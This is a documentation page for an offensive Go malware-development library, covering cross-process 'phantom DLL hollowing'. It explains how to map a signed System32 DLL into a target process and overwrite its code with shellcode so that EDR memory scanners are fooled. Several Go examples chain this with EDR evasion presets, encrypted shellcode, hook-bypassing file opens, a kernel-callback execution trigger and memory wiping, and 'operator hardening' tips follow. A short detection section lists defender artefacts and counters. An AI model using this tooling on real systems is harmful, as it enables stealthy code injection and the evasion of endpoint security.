

# Phantom DLL hollowing

[← injection index](README.md) · [docs/index](../../index.md)

> **New to maldev injection?** Read the [injection/README.md
> vocabulary callout](README.md#primer--vocabulary) first.

## TL;DR

Cross-process module stomping: open a real System32 DLL, build a
`SEC_IMAGE` section from it, map the section into the target so the
kernel records the mapping as a legitimate signed image, then overwrite
the `.text` of the remote view with shellcode. Memory scanners see a
file-backed amsi.dll mapping; the bytes are the implant's. Optionally
routes the open through [`evasion/stealthopen`](../evasion/stealthopen.md)
to dodge path-based file hooks.

| Trait | Value |
|---|---|
| **Target class** | Remote (placement only — no execution trigger) |
| **Creates a new thread?** | No (placement only — caller picks an executor) |
| **Uses `WriteProcessMemory`?** | Yes (to overwrite `.text` of the mapped image) |
| **Stealth tier** | Very high — kernel records `SEC_IMAGE` mapping with the donor's path; memory scanners see a file-backed signed module |
| **Composable** | Designed to chain with [Kernel Callback Table](kernel-callback-table.md) for the execution trigger (no thread creation either) |

When to pick a different method:

- Want a single self-contained "place + execute" call? → [Section Mapping](section-mapping.md) trades the file-backed mask for one less syscall chain.
- Don't need image-backed mapping? → [CreateRemoteThread](create-remote-thread.md) is simpler when memory scanners aren't the threat.
- Want the stomp to happen in YOUR process? → [Module Stomping](module-stomping.md) — same trick, local target.

## Primer

Module stomping ([local](module-stomping.md)) gives an RX region that
the OS reports as a legitimate signed image — but only inside the
implant's own process. Phantom DLL hollowing extends the same idea
across a process boundary by combining `NtCreateSection(SEC_IMAGE)`
with `NtMapViewOfSection` into the target.

The kernel insists that `SEC_IMAGE` sections be backed by an Authenticode-
signed file; the implant uses a real System32 DLL (`amsi.dll`,
`msftedit.dll`, …) so the signature check passes. The same pages are
then overwritten in the **target's** view: read the on-disk DLL to
locate the `.text` RVA, flip the remote section to RW with
`VirtualProtectEx`, write the shellcode, flip back to RX. The remote
process now has an `amsi.dll` mapping whose code segment is the implant.

EDR memory scanners that key on "is this image-backed and signed?"
report green. Defenders that compare in-memory bytes against the on-disk
copy see the divergence.

## How it works



Steps:

1. **Open** the cover DLL (default `amsi.dll`). When an `Opener` is
   supplied, the open routes through file-ID handles rather than a
   path-based `CreateFile`, defeating EDR file-IO hooks that key on
   path strings.
2. **`NtCreateSection(SEC_IMAGE)`** — kernel validates and builds a
   signed image section.
3. **`NtMapViewOfSection`** into the target with `PAGE_EXECUTE_READWRITE`.
4. **Parse** the cover DLL's PE headers in the implant to locate the
   `.text` RVA and size.
5. **Flip + write + flip back** the target's `.text` via
   `VirtualProtectEx` + `WriteProcessMemory` + `VirtualProtectEx`.
6. (Caller's responsibility) trigger the shellcode in the target —
   `KernelCallbackExec`, `SectionMapInject`-paired thread, callback
   APC.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/inject`](https://pkg.go.dev/github.com/oioio-space/maldev/inject) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
import "github.com/oioio-space/maldev/inject"

if err := inject.PhantomDLLInject(targetPID, "amsi.dll", shellcode, nil); err != nil {
    return err
}
// caller now triggers the shellcode separately.
```

### Composed (stealthopen for the file open)

Defeat path-based EDR file hooks on `amsi.dll`:

```go
import (
    "os"
    "path/filepath"

    "github.com/oioio-space/maldev/evasion/stealthopen"
    "github.com/oioio-space/maldev/inject"
)

sys32 := filepath.Join(os.Getenv("SYSTEMROOT"), "System32")
opener, _ := stealthopen.New(filepath.Join(sys32, "amsi.dll"))
defer opener.Close()

return inject.PhantomDLLInject(targetPID, "amsi.dll", shellcode, opener)
```

### Advanced (phantom + KCT trigger)

End-to-end placement + execution:

```go
import (
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

if err := inject.PhantomDLLInject(targetPID, "msftedit.dll", shellcode, nil); err != nil {
    return err
}

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
return inject.KernelCallbackExec(targetPID, shellcode, caller)
```

### Complex (decrypt + stealthopen + phantom + trigger + wipe)

```go
import (
    "os"
    "path/filepath"

    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/evasion/stealthopen"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
_ = evasion.ApplyAll(preset.Stealth(), caller)

shellcode, err := crypto.DecryptAESGCM(aesKey, encrypted)
if err != nil { return err }
memory.SecureZero(aesKey)

sys32 := filepath.Join(os.Getenv("SYSTEMROOT"), "System32")
opener, _ := stealthopen.New(filepath.Join(sys32, "amsi.dll"))
defer opener.Close()

if err := inject.PhantomDLLInject(targetPID, "amsi.dll", shellcode, opener); err != nil {
    return err
}
memory.SecureZero(shellcode)

return inject.KernelCallbackExec(targetPID, shellcode, caller)
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `SEC_IMAGE` section in a target backed by a DLL the target does not import | Sysmon Event 7 (ImageLoad) — anomaly when the host process does not depend on the cover DLL |
| In-memory `.text` mismatch with the on-disk DLL | Image-integrity scanners — strong, slow detector |
| Cross-process `WriteProcessMemory` to an image's `.text` | EDR userland hooks + ETW-Ti `WriteVirtualMemory` |
| `VirtualProtectEx` flip on a loaded image | EDR allocation-protect telemetry |

**D3FEND counters:**

- [D3-PCSV](https://d3fend.mitre.org/technique/d3f:ProcessCodeSegmentVerification/)
  — image-integrity verification.
- [D3-SICA](https://d3fend.mitre.org/technique/d3f:SystemImageChangeAnalysis/)
  — image-change analysis on loaded modules.

**Hardening for the operator:** route the file open through
[`stealthopen`](../evasion/stealthopen.md); pick a cover DLL that the
target is unlikely to actually import (so the load looks load-but-unused
rather than overlapping legitimate use); pair with ntdll unhooking.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1055.001](https://attack.mitre.org/techniques/T1055/001/) | Process Injection: DLL Injection | image-backed cross-process variant | D3-PCSV |
| [T1574.002](https://attack.mitre.org/techniques/T1574/002/) | Hijack Execution Flow: DLL Side-Loading | adjacent — phantom DLL imitates side-loading without actual hijack | D3-SICA |

## Limitations

- **`WriteProcessMemory` still fires.** The technique avoids the
  *allocation* anomaly (image-backed instead of heap), not the
  cross-process write itself.
- **Non-trigger.** `PhantomDLLInject` only places the shellcode. The
  caller picks the trigger ([`KernelCallbackExec`](kernel-callback-table.md),
  APC, thread).
- **Cover DLL must not be already loaded with dependencies in target.**
  If `amsi.dll` is already mapped because AMSI is in use, the new
  `SEC_IMAGE` mapping conflicts. Pick a DLL the target does not load
  (verify via Process Explorer first).
- **Image-diff defeats it.** Defenders that compare loaded `.text`
  against the on-disk DLL win.

## See also

- [Module Stomping](module-stomping.md) — local, in-process variant
  of the same technique.
- [Section Mapping](section-mapping.md) — non-image-backed
  cross-process placement.
- [KernelCallbackTable](kernel-callback-table.md) — the canonical
  trigger paired with `PhantomDLLInject`.
- [`evasion/stealthopen`](../evasion/stealthopen.md) — defeat
  path-based file-IO hooks on the cover DLL open.
- [Forrest Orr, *Phantom DLL Hollowing*, 2020](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-i-phantom-dll-hollowing)
  — original public write-up.
